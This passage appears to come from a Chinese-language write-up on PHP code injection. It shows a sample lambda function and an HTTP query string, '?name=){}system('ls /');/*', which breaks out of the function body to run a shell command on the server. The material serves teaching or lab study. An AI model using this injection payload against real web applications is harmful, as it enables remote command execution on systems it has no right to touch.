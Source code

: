 类似于
```php
<?php
function lambda1($a,$b){
    return "ln($a) + ln($b) = " . log($a * $b);
}
?>
```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231215181809.png)

```http
//第一个参数

?name=){}system('ls /');/*&value=Leaf&

```